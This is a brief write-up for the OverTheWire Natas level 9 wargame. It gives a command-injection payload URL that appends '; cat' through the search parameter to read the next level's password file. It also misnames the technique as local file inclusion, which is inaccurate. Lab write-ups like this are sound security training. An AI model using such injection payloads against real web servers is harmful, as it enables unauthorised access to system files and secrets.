





**Natas (OTW)**

**Natas 9 Writeup:**

Natas level 8 —>9

Now using the key that we have procured after the combination of decoding , we input the key in the text area field to obtain the password.

**Payload :** <http://natas9.natas.labs.overthewire.org/?needle=id>

**Payload : <http://natas9.natas.labs.overthewire.org/?needle=;%20cat%20/etc/natas_webpass/natas10>**

Here in the payload we have used ; to break it similar to the way we did in sql injections we will be able to enter our payload.

Here they use the technique known as lfi or local file inclusion to extract the data from the source.

